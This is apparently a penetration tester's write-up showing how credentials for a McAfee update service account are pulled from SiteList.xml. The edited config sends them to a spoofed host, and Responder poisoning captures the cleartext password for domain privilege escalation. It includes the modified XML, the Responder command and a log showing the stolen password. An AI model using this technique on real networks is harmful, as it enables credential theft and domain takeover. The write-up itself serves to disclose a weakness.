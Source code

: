 
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

#### 02/02/2015 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product !

For best practices click [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on the *Domain Controler* and access all workstations within the domain.

Mission accomplished !

![McAfee](img/McAfee.jpg)

[@tfairane](https://twitter.com/tfairane) Greetz [@Fr33ster](https://twitter.com/Fr33ster)
